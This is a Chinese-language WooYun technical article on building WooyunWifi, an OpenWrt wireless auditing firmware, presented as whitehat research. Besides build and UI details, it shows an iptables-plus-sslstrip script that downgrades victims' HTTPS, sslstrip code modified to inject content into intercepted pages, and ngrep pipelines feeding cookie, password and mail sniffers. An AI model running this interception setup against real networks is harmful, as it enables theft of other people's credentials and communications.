










# WooYun WIFI 成长史 

2014/10/20 14:32 | [lxj616](http://drops.wooyun.org/author/lxj616 "由 lxj616 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

## 第一章：失传的菠萝神话

* * *

## 0x00 前言:

* * *

WooyunWifi 是一款基于 Openwrt 开发的无线审计测试固件，内置集成了众多著名无线/网络审计工具，并基于 Ngrep+sslstrip 开发了原创工具及 BS 架构管理界面。 本系列文章将详细讲解 无线安全、网络安全、嵌入式开发、前端 Bootstrap 界面设计、后台 PHP 程序设计、Shell Script 编写、C 语言有限自动机设计、Python 网络编程、Linux 高级命令、路由器常识概念 等相关内容

> 本章概括了 WooyunWifi 的技术架构以及功能实现理论。

## 0x01 菠萝神话：

* * *

由于 wifi pineapple 支持的路由器有限（事实上除了它自己销售的那一款，其他的路由器都没办法完全正常运行），因此网上出现了各种“移植”的教程，只为一睹神器真容，然而多数人最终失败，少数人在付出了巨大代价后才勉强成功。 Wifi pineapple 自称开源，但事实上并非如此，其公开的源代码陈旧而混乱，也没有充足的文档以供分析。 菠萝神话已经失传，只剩国外垄断销售的黑客路由器与一群心怀不轨的购买者，技术研究的气氛 和 自由公开的精神 早已不见了踪影。 如果你真的好奇大菠萝到底是怎样实现的，如果你真的想看到确凿的技术细节，那么跟我来体验一把求真求实、自由共享的乌云白帽“安全实践”吧 注：根据有关法律法规，我们正在仔细评估并设计该固件的”安全使用”限制，尽管遵守 GPL 协议，在”安全使用”评估设计完成之前不会公开源代码，也不会向公众发布固件。

## 0x02 架构设计：

* * *

先展示一下 WooyunWifi 的架构图（Wooyun Wifi 简称 Woofi）：



1、 PHP+Bootstrap 的组合大家已经在乌云靶场项目中见过了，不过由于路由器环境限制和开源工具数据存储特性，经过考虑不使用 Mysql 数据库存储数据，直接使用文本方式保存数据内容。

2、 数据处理则考虑到路由器性能问题（大量实时数据包处理）采用 C 语言自动机实现

3、 使用 Shell 编程简化了一些控制配置，fate0 修复了一个 sslstrip 的官方 bug

简而言之，工作流程是这样的：用户登录`192.168.16.2`，看到 uhttpd 上的 index 首页，然后后台 PHP 处理用户的操作，调用了一些辅助性`Shell script`，然后比如控制把 ngrep 抓到的数据实时交给 WoofiTools 中的 mailsniff 做数据处理，然后结果以文本形式保存。PHP 把文本保存的数据读取处理，结合 uhttpd 返回给用户页面。

如果接下来各种程序设计我都是一句话带过然后疯狂贴代码，那么这篇文章也和那些炫耀贴毫无区别了，并无冒犯之意，我也从很多“一句话轻描淡写”博客中学习了很多知识，只不过由于文章细节不清，BUG 和失败的次数令我觉得难以忍受……所以，接下来我不仅要告诉大家我是怎样实现的程序，而且要告诉大家我为什么要这样写程序。

## 0x03 实现方案的演变：

* * *

在我还没有开始设计之前，我考虑过几种实现方案

1、 基于大菠萝二次开发，修改代码重新编译到其他路由器上。这个当时是我的首选方案，直到我发现大菠萝根本没有完全公开源代码，因此彻底不可行

2、 集成开源软件，做开源软件的 WEB UI 和各种前提配置。当时觉得这样完全不比大菠萝二次开发复杂，直到我发现很多开源软件年久失修 BUG 成群，能修复的尽量修复，修不好的只能重新开发了。

3、 集成各种必要的 library，自己从头开发功能程序，这样很明显会有重复造轮子的浪费，不过由于发现有些开源软件无法正常使用，因此也是没办法的选择，当然我也会把那些能够使用的开源软件加以利用

于是，本想着改改大菠萝代码就可以了，结果变成了重新集成开源软件做 WEB UI 于是，本想着重新集成开源软件做 WEB UI 就可以了，结果需要部分底层工具重新开发

发生这种情况一方面是由于预研不到位，以及 SE 对技术难度的预判有误，而导致项目规划和实际执行严重错位，这么巨大的技术难度偏差很可能导致项目流产。 那么这个项目是怎么来的呢？那就要从 2014/7/30 的下午说起……

社区里小伙伴发了个思想无比前卫的帖子：Anymous《[设想 wooyun 智能路由改造 openwrt](http://zone.wooyun.org/content/14162)》 剑心大人@了瞌睡龙大人，瞌睡龙大人把这个光荣的任务交给了我，我当时想了一下答道：“如果只是改改大菠萝源代码，不会很难” 事实证明，我在没有预研的情况下错判了项目技术难度，看来还有好多的东西要学~

**感想：**

越是看上去简单的事情，做起来就越复杂。事情即使再复杂，只要做完了就会变得简单

## 0x04 工具原理：

* * *

1、 嗅探使用 ngrep+自己写的 C 语言自动机，以及 sslstrip+自己写的 C 语言自动机

2、 MITM 系列功能使用二次开发过的 sslstrip 来实现

3、 无线审计开源工具不用修改，直接做 WEB UI 就可以了（我又错了，karma 把我击败了）

4、 Karma（未完成）通过建立 AP 并给任意 ssid 的请求进行响应和服务，达到劫持的目的

**Karma 原理详解：**

首先 Karma 需要建立一个能够用来劫持用户的 AP（比如说利用 hostapd），然后对 hostapd 源码进行 patch，使之可以无视请求中的 ssid 提供服务



（默认情况下，若 ssid 不一致，hostapd 会报告异常，因此为了实现 karma 功能需要 hostapd 去除 ssid 检查）

部分重要 patch 如下：



即如果 karma_beacon_respond 选项开启则无视 ssid 的检查，补丁原作者在截图中有显示，我只是把他的针对 hostapd 2.0 补丁重新做到了 hostapd 最新版 20140603 上而已

PS：制作补丁/使用补丁的方式请参见[`wiki.openwrt.org/doc/devel/patches`](http://wiki.openwrt.org/doc/devel/patches)

再 PS：在 refresh 之后一定要记住把生成好的补丁复制出来备份，因为接下来的步骤会把补丁打进源码而删除原补丁文件！！！

而 karma 本身程序的运行逻辑是： 首先循环抓无线信号帧（使用了 airtap），然后每次抓到信号帧都调用 on_probe_request 处理，在函数里面首先建立一个链表储存请求的 station 信息，之后发送响应信号帧

可惜我没有成功跑起 karma 主程序，因为 airtap 调用了 libpcap 却找不到对应的 datalink decoder，暂时找不到解决方案

我曾经以为我熟悉这些工具的原理，直到开发过程中（以后文章详解）遇到各种问题，才发现要真正的熟悉原理，不仅要知道工具做了什么，而且要知道工具为什么这么做。

## 0x05 Luci 的简要分析：

* * *

我们使用 Openwrt 自己的 Luci 进行常规功能的管理，因为 Luci 自己的功能其实是很强大的。我曾经一度想要在 Luci 之上开发我们的 WooyunWifi WEB 界面，但是由于 cgi 和 lua 脚本都比较陌生，所以为了敏捷开发，还是选择了 PHP 请注意：部分 Openwrt 版本的 Luci 不支持网络中继功能（就是作为 client 连接一个 Wifi 然后再作为 AP 播出一个 Wifi），我选择的最新 barrier_breaker 是有这个功能的 另外，Luci 依赖 uhttpd，因此正好 PHP 也放在 uhttpd 上了

对了，不要自己乱改`/etc/config/wireless`配置，因为 Luci 会出 BUG

## 0x06 投影至乌云峰会 irc 上：

* * *

这个是临时功能，为了乌云峰会设计的，从各种 sniff 中 posturl 到服务端，然后 fate0 在瞌睡龙大人的 weechat 里做了个 python 插件，我只是 post 数据，没有实际参与，因此不知道相关细节。 展示出的代码中没有该功能

## 第二章：路由器的先天技能

* * *

## 0x00 前言:

* * *

> 本章概括了 WooyunWifi 基于 Openwrt 的源码编译及集成方式。

## 0x01 编译 Openwrt：

我使用的是 Ubuntu 麒麟 14.04：

首先要看官方文档，而不是胡乱百度 http://wiki.openwrt.org/doc/howto/easy.build

官方文档中的这一句

```
svn co -r 36088 svn://svn.openwrt.org/openwrt/branches/attitude_adjustment 
```

是检出 36088 版的 attitude_adjustment 分支源码，最新版是 trunk，新功能多，支持的芯片多，但是稳定的软件包少。为了支持极路由，我选择的是最新版 barrier_breaker 分支，不要忘记去掉-r 36088 以检出最新版本的源码。

```
svn co svn://svn.openwrt.org/openwrt/branches/barrier_breaker 
```

官方文档中的这一句：

```
./scripts/feeds update –a 
```

可能会因为国内偶尔连不上 googlecode 而失败，如果你不需要那些在 googlecode 上的软件包，你可以无视失败信息进行

```
./scripts/feeds install -a 
```

（因为会报告 index 问题，所以要加-a） 如果正好 googlecode 上放的是你需要的软件包，请自行寻找连接 google 的方式吧

然后

```
~/20140818/barrier_breaker$ make menuconfig 
```

进行配置



第一项是目标芯片型号，不知道自己路由器芯片型号的 Google 去吧，第二项选项是 NAND 什么的设置视情况选择，第三项是你的路由器型号，我这里选择了极路由，只有在选对了芯片类型后才会可选，其它选项都比较易懂，如果用到再说



选择编译的软件包时，星号代表编译进固件，M 代表编译安装包但不放进固件，内置某些软件包时会自动选中依赖项

Q：为什么选项里没有我要的软件包？

A：可能你没 feeds update install，也可能是你 svn 检出的版本不对

然后就是保存

```
make V=s 
```

有很多人喜欢 j4 多线程编译，如果你是第一次编译，强烈建议你不要这样做，因为你一旦遇到错误输出的东西比较混乱，查日志很麻烦 然后就是遇到连接错误，重新`make V=s`，还是连接不上，那就和想办法上国外网站同一个道理，如果校验出错，删掉 dl 文件夹下的错误文件重新 make V=s，视报错针对性解决

如果编译完成，会在

```
bin/芯片型号/ 
```

下面出现编译好的固件 比如：`openwrt-ar71xx-generic-hiwifi-hc6361-squashfs-sysupgrade.bin` 这就是 squashfs 的极路由固件

再比如：`openwrt-ar71xx-generic-wndr3800-squashfs-factory.img` 这就是 squashfs 的 netgear wndr3800 固件

刷机方法一般可用路由器后台界面上传固件刷机，也可根据说明书使用 TFTP 刷机，如果有经验也可以线刷

## 0x02 开源工具的评测：

* * *

1、 Ngrep：之所以不使用 tcpdump 是因为 ngrep 提供了更简便的数据处理和输出，运行时很稳定，用它开发了 cookiesniff、passsniff、mailsniff 等工具

2、 Dsniff：密码嗅探不理想，安装它是为了其中的 urlsnarf 等工具，相对而言还是自己开发的 ngrep+各种 sniff 不丢包更稳定，话说 Http 的密码它根本嗅探不到啊，不知道是不是我配置的问题。

3、 SSlstrip：官方版本就存在着 BUG，不能运行，多亏 fate0 挺身而出修复了这个 BUG，于是我们的 Mitm 也可以基于 sslstrip 设计了

4、 Ettercap：由于 Openwrt 官方自带的版本过度古老，因此 BUG 很多（各种网上已知的 bug），不适合做二次开发，因此只集成不做 WEB UI。

5、 Karma：不能够正常使用，需要大量修改（暂未完成）

6、 Aircrack-ng：还没测试

7、 Reaver：还没测试

## 0x03 fate0 修复 sslstrip：

* * *

使用 sslstrip 的时候报错：

```
exceptions.AttributeError: ClientRequest instance has no attribute 'responseHeaders' 
```

fate0 通过对 sslstrip 源码的检查，发现了 sslstrip 集成的 twisted 版本过于古老，因此建议我更新 twisted，但是我发现新版本的 twisted 容量太大，集成到路由器上不现实，因此 Openwrt 才会一直集成古老版本的 twisted（而且发现它还是缩水的）。

于是只好求 fate0 改 sslstrip 代码，fate0 调试之后发现了问题所在：

```
ServerConnection.py

elif (key.lower() == 'set-cookie'):
            #import pdb
            #pdb.set_trace()
            #self.client.responseHeaders.addRawHeader(key, value)
            self.client.setHeader("test_key", "test_value")
            #self.client.setHeader(key, value)
            self.client.cookies.append(value)
        else:
            self.client.setHeader(key, value) 
```

由于`#self.client.responseHeaders.addRawHeader(key, value)`这一句没有 responseHeaders，因此造成`exception`

那么，sslstrip 这样设计的目的是什么呢？我们知道，set-cookie 可能会有很多个，而`self.client.setHeader(key, value)`会毫不犹豫地覆盖掉之前的 set-cookie，因此这段代码的目的是 addRawHeader 实现多个`set-cookie header`

因此，fate0 用`self.client.cookies.append(value)`实现了这一功能，修复完毕

## 0x04 制作修复后的 sslstrip 软件包：

* * *

修改 sslstrip 的 Makefile，改为从本地下载（我搭了个 nginx），别忘改 md5 校验哦



然后把修复后的 ServerConnection.py 打进压缩包，放在自己 nginx 即可

## 0x05 制作自己的软件包：

* * *

请优先参阅官方文档

例：package/wooyun/wooyunwifi/Makefile

```
#
# Copyright (C) 2011-2012 OpenWrt.org
#
# This is free software, licensed under the GNU General Public License v2.
# See /LICENSE for more information.
#

include $(TOPDIR)/rules.mk

PKG_NAME:=wooyunwifi
PKG_RELEASE:=1

include $(INCLUDE_DIR)/package.mk

define Package/wooyunwifi
  SECTION:=wooyun
  CATEGORY:=wooyunwifi
  TITLE:=wooyunwifi
  MAINTAINER:=lxj616
endef

define Package/wooyunwifi/description
 Wooyun Wifi is a whitehat wifi auditing toolsuite based
 on Openwrt , Have fun testing security issues on your 
 own wifi network ,serves study purpose only, license GPL
                                    ------ lxj616@wooyun
endef

define Build/Prepare
    $(INSTALL_DIR) $(PKG_BUILD_DIR)
    把 src 里面的源文件复制到 build 地点（不然编译时找不到）
    $(INSTALL_DATA) ./src/cookiesniff.c $(PKG_BUILD_DIR)/
    $(INSTALL_DATA) ./src/passsniff.c $(PKG_BUILD_DIR)/
    $(INSTALL_DATA) ./src/mailsniff.c $(PKG_BUILD_DIR)/
    $(INSTALL_DATA) ./src/stripsslstrip.c $(PKG_BUILD_DIR)/
    把不需要编译的文件夹和文件也拷贝过去
    $(CP) ./WooyunWifi $(PKG_BUILD_DIR)/
    $(CP) ./index.html $(PKG_BUILD_DIR)/
    $(CP) ./conf $(PKG_BUILD_DIR)/
endef

define Build/Compile
    编译源文件，如果之前没复制这步就找不到，用的是交叉编译
    $(TARGET_CC) $(TARGET_CFLAGS) -Wall \
        -o $(PKG_BUILD_DIR)/cookiesniff $(PKG_BUILD_DIR)/cookiesniff.c
    $(TARGET_CC) $(TARGET_CFLAGS) -Wall \
        -o $(PKG_BUILD_DIR)/passsniff $(PKG_BUILD_DIR)/passsniff.c
    $(TARGET_CC) $(TARGET_CFLAGS) -Wall \
        -o $(PKG_BUILD_DIR)/mailsniff $(PKG_BUILD_DIR)/mailsniff.c
    $(TARGET_CC) $(TARGET_CFLAGS) -Wall \
        -o $(PKG_BUILD_DIR)/stripsslstrip $(PKG_BUILD_DIR)/stripsslstrip.c
endef

define Package/wooyunwifi/install
    新建文件夹准备复制
    $(INSTALL_DIR) $(1)/usr/bin
    $(INSTALL_DIR) $(1)/etc/wooyunwifi
    复制编译好的文件到可以运行的地方
    $(INSTALL_BIN) $(PKG_BUILD_DIR)/cookiesniff $(1)/usr/bin/
    $(INSTALL_BIN) $(PKG_BUILD_DIR)/passsniff $(1)/usr/bin/
    $(INSTALL_BIN) $(PKG_BUILD_DIR)/mailsniff $(1)/usr/bin/
    $(INSTALL_BIN) $(PKG_BUILD_DIR)/stripsslstrip $(1)/usr/bin/
    $(INSTALL_DIR) $(1)/www
    直接复制各种文件
    $(CP) $(PKG_BUILD_DIR)/WooyunWifi $(1)/www
    $(CP) $(PKG_BUILD_DIR)/index.html $(1)/www
    $(CP) $(PKG_BUILD_DIR)/conf/basepath.conf $(1)/etc/wooyunwifi
endef

$(eval $(call BuildPackage,wooyunwifi)) 
```

然后再`make menuconfig`就可以看到自己的软件包了，然后正常编译即可，如果报错注意修改软件包配置

## 第三章：路由器的漂亮界面

* * *

## 0x00 前言:

* * *

> 本章概括了 WooyunWifi 的 WEB 端功能实现。

## 0x01 PHP：

* * *

我曾经考虑，可不可以只用 html+cgi 实现所有的功能，但考虑到 WEB 管理的业务需求比较宽松，因此采用 PHP 敏捷开发更加快速。 Menuconfig 时，额外选择`language – PHP – php-mod-session`用作登录控制，同理可集成其它所需插件 为了使 uhttpd 支持 PHP，修改`package/network/services/uhttpd/files/uhttpd.config` 去掉`list interpreter php` 的注释符号，其它配置同理



以 sslstrip 插件的设计为例进行说明



```
/WooyunWifi/sslstrip.inc

$ison=shell_exec("ps|awk '{print $6}'|grep sslstrip"); 
```

在 PHP 中随时使用`shell_exec`和`exec`执行 linux 命令获取工具状态，并且判断显示开关的状态，之后就是常规的 PHP 程序设计了

不过在设计中出现了一个小问题，那就是一些命令比如说 ngrep 在运行时会挂在那里持续运行，这就导致 PHP 脚本无法继续运行，比较奇怪的是 nohup &在 php 里面没有效果，只有先用 PHP `sh ***.sh`，然后在 shell 脚本中才会正常后台执行，因此：

**sson.php**

```
<script>
var xmlhttp;
xmlhttp=new XMLHttpRequest();
<?php
echo 'xmlhttp.open("GET","sslstripon.php",true)';
?>
xmlhttp.send();
var t=setTimeout("window.location.href=\"/WooyunWifi/index.php?action=sslstrip\";",1000);
</script> 
```

先异步请求，然后等待 1s 跳转回去（解决后面 500 bad gateway 问题）

**sslstripon.php**

```
shell_exec("./test2.sh ".$basepath."&"); 
```

接到请求，运行 shell 脚本（还是会挂在这里不能继续执行）

**Test2.sh**

```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 10000
iptables -t nat -A PREROUTING -p tcp --destination-port 443 -j REDIRECT --to-ports 10000

echo "1" > ${1}/sslstrip.log
sslstrip -w ${1}/sslstrip.log -l 10000 &
tail -f ${1}/sslstrip.log|stripsslstrip &

kill $(ps|grep "php-cgi"|awk '{print $1}') &

```

结束掉 php-cgi 的进程，因为 uhttpd 是一个单线程服务器，因此 php-cgi 挂在那里就会导致服务器无响应，kill 掉之后服务器才能响应其他请求。

所以流程是这样的：
1、 用户打开页面
2、 PHP 执行 shell 命令，判断 sslstrip 是否正在运行，如果不是，返回“启动”按钮
3、 用户点击启动按钮
4、 到 sson.php 中异步请求 sslstripon.php，然后……
5、 sslstripon.php 调用 test2.sh，后台运行 sslstrip，然后`test2.sh` `kill 掉 php-cgi`，于是 sslstripon.php 执行完毕（返回 500 bad gateway），但是用户在 sson.php 中等待 1s 后返回主界面了，所以看不到 500 错误

绕了个圈解决了单线程服务器的阻塞问题，不过这样看来软件架构怪怪的，先实现功能再说，以后再改进吧

大家可能会有这样的疑问： 你在 PHP 中运行 shell 命令时难道不是 www-data 权限吗？ 如何运行 tcpdump 之类的高权限程序呢？

其实我之前也特地设计了用 sudoer 解决权限问题的方案，只不过后来我发现（个人猜测），Openwrt 这类的嵌入式系统权限和用户组并不严格，直接就是 root 运行一切程序了

## 0x02 Bootstrap 前端设计：

* * *

[在线](http://www.layoutit.com/build?r=35144450)画了个框架，然后放在路由器上一边 vi 一边刷新浏览器



## 0x03 MITM 功能设计：

* * *

因为这个功能主要是在应用层实现的，而且和 WEB 相关协议联系比较密切，所以放在 WEB 层来探讨这个问题。 首先我们来分析一下解决这个功能的可选方案：

1、 在传输层使用 transparent proxy 做 MITM 数据包截取/修改
2、 在应用层使用 HTTP 双向通信模型做 MITM 内容截取/修改

刚开始的思路是做一个`transparent proxy`，但是发现由于数据包分段以及 gzip 格式传输，导致传输层做 HTTP 内容注入比较复杂，而且其他协议的数据包又不具备通用性的 MITM 介入方式，因此综合看来还是做应用层 HTTP 协议的双向通信模型比较简便。

而我们知道，SSlstrip 就是基于这种应用层双向通信模型构建的，我们可以借用 SSlstrip 的代码进行改造

```
ServerConnection.py

    def replaceSecureLinks(self, data):
        iterator = re.finditer(ServerConnection.urlExpression, data)

        for match in iterator:
            url = match.group()

            logging.debug("Found secure reference: " + url)

            url = url.replace('https://', 'http://', 1)
            url = url.replace('&amp;', '&')
            self.urlMonitor.addSecureLink(self.client.getClientIP(), url)

        data = re.sub(ServerConnection.urlExplicitPort, r'http://\1/', data)

        #在这里对 data 进行处理，即可完成 MITM 介入
        #这个函数本来的功能是替换 https 为 http 普通链接
        #在此之前已经完成了对 gzip 的解压，以及建立了双向连接

        replaceconfig=os.popen('cat /etc/wooyunwifi/replace.conf').readlines()
        data = data.replace(replaceconfig[0].strip(),replaceconfig[1].strip())

        #其实就两句话，看上去很简单，哈

        return re.sub(ServerConnection.urlType, 'http://', data) 
```

再做个 WEB 页面 至此，MITM 设计完毕

感想：写一句代码只需要一分钟，但知道这行代码写在哪需要一天



既然 WEB 控制端设计好了，开始做 model 层的数据处理工具吧！

## 第四章：路由器的数据处理

* * *

## 0x00 前言:

* * *

> 本章概括了 WooyunWifi 的 model 层数据处理功能实现。

## 0x01 交叉编译：

* * *

我们在本地编译一个 Linux 程序：

```
gcc -o mailsniff mailsniff.c
./mailsniff.c 
```

在本地可以正常运行

而我们要编译一个在路由器上可以运行的程序，又不能给路由器安装 gcc，那怎么办呢？

我们采取交叉编译在本地编译路由器中的程序：

```
./barrier_breaker/staging_dir/toolchain-mips_34kc_gcc-4.8-linaro_uClibc-0.9.33.2/bin/mips-openwrt-linux-gcc -o mailsniff mailsniff.c 
```

这里的交叉编译工具链跟你的路由器芯片型号有关，需要你先选择 toolchains 编译 make V=s 后才会出现，当然你也可以从 downloads.openwrt.org 直接下载对应芯片型号的 toolchains

如何制作软件包集成进固件在第二章介绍，此处不再赘述

## 0x02 数据交互：

* * *

实例说明：

```
echo "1" > ${1}/sslstrip.log 
```

将 echo 的结果写入文件（basepath 从外部 PHP 调用传入）

```
ngrep -l -q -W byline -d $1 port 110 or 143 or 25|mailsniff 
```

将 ngrep 的 stdout 接到 mailsniff 的 stdin 上（device 从外部 PHP 调用传入）

注意：这里的 ngrep -l 选项是为了使 ngrep 的 stdout 以行为单位缓冲，避免由于数据缓冲导致的数据不及时同步问题

而 sslstrip 本身是输出一个 log 文件

```
sslstrip -w ${1}/sslstrip.log -l 10000 & 
tail -f ${1}/sslstrip.log|stripsslstrip & 
```
